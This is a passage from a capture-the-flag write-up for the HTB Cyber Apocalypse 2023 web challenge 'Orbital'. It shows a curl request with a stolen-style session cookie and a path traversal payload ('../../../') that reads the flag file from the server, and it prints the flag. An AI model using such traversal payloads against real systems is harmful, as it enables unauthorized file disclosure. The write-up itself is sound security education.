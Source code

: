 Since there's no validation to check ***path travsal***, we can try to get the flag!

**But first, let's look at the web application's file structure:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital/web_orbital)-[2023.03.19|12:52:56(HKT)]
└> ls -lah files/communication.mp3
-rw-r--r-- 1 siunam nam 111K Mar 14 21:15 files/communication.mp3
```

As you can see, the `communication.mp3` is in `/communications/files/`.

**Then, in `Dockerfile`, we see where does the flag lives:**
```bash
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

**That being said, we can download the flag via `../../../signal_sleuth_firmware`:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital)-[2023.03.19|13:00:17(HKT)]
└> curl http://143.110.160.221:30809/api/export --cookie "session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNakl5T1RjMGZRLldDNTFaRmd5ZjE2cUVaZ3VtN29qbVJyWVRHb0F3Ni1Wbnd3eGQwbGFTN2MifQ.ZBaUXg.Raqq6_Z94_wxwrORI5bOTm99cPw" -d '{"name":"../../../signal_sleuth_firmware"}' -H 'Content-Type: application/json'
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```

Nice!

- **Flag: `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`**

## Conclusion

What we've learned:

1. Exploiting Error-Based/Time-Based SQL Injection